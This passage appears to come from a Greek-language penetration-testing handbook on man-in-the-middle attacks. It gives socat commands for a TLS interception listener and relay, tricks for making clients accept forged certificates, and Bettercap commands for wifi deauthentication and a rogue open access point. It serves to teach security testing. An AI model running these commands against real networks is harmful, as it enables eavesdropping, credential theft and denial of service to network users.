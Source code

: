 Αφού αποκτήσει το πιστοποιητικό, ο επιτιθέμενος μπορεί να το χρησιμοποιήσει για να αποκρυπτογραφήσει την κυκλοφορία δεδομένων και να παρακολουθήσει τις επικοινωνίες. Αυτό του επιτρέπει να αποκτήσει πρόσβαση σε ευαίσθητες πληροφορίες, όπως κωδικούς πρόσβασης ή προσωπικά δεδομένα.

Για να εκτελεστεί αυτή η τεχνική, ο επιτιθέμενος πρέπει να αποκτήσει πρόσβαση στο πιστοποιητικό, είτε μέσω κλοπής, είτε μέσω κατασκευής ενός πλαστού πιστοποιητικού. Αυτό μπορεί να γίνει μέσω ευπάθειας στο σύστημα πιστοποίησης ή μέσω κοινωνικής μηχανικής.

Είναι σημαντικό να προστατεύετε τα πιστοποιητικά σας και να ελέγχετε την ακεραιότητά τους για να αποτρέψετε την ακρόαση χρησιμοποιώντας πιστοποιητικό.
```
sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0 -
```
#### Ακούστε χρησιμοποιώντας πιστοποιητικό και ανακατευθύνετε προς τους κεντρικούς υπολογιστές
```
sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0  openssl-connect:[SERVER]:[PORT],verify=0
```
Μερικές φορές, αν ο πελάτης ελέγχει ότι ο CA είναι έγκυρος, μπορείτε να **παρέχετε ένα πιστοποιητικό άλλου ονόματος κεντρικού υπολογιστή που έχει υπογραφεί από έναν CA**.\
Ένα άλλο ενδιαφέρον τεστ είναι να παρέχετε ένα **πιστοποιητικό του αιτούμενου ονόματος κεντρικού υπολογιστή αλλά με αυτο-υπογραφή**.

Άλλα πράγματα που μπορείτε να δοκιμάσετε είναι να προσπαθήσετε να υπογράψετε το πιστοποιητικό με ένα έγκυρο πιστοποιητικό που δεν είναι έγκυρος CA. Ή να χρησιμοποιήσετε το έγκυρο δημόσιο κλειδί, να αναγκάσετε τη χρήση ενός αλγορίθμου όπως το diffie hellman (ένας που δεν χρειάζεται να αποκρυπτογραφήσει τίποτα με το πραγματικό ιδιωτικό κλειδί) και όταν ο πελάτης ζητήσει μια έρευνα του πραγματικού ιδιωτικού κλειδιού (όπως ένα hash) να στείλετε μια πλαστή έρευνα και να αναμένετε ότι ο πελάτης δεν θα το ελέγξει αυτό.

## Bettercap
```bash
# Events
events.stream off #Stop showing events
events.show #Show all events
events.show 5 #Show latests 5 events
events.clear

# Ticker (loop of commands)
set ticker.period 5; set ticker.commands "wifi.deauth DE:AD:BE:EF:DE:AD"; ticker on

# Caplets
caplets.show
caplets.update

# Wifi
wifi.recon on
wifi.deauth BSSID
wifi.show
# Fake wifi
set wifi.ap.ssid Banana
set wifi.ap.bssid DE:AD:BE:EF:DE:AD
set wifi.ap.channel 5
set wifi.ap.encryption false #If true, WPA2
wifi.recon on; wifi.ap
```
### Σημειώσεις Ενεργής Ανακάλυψης
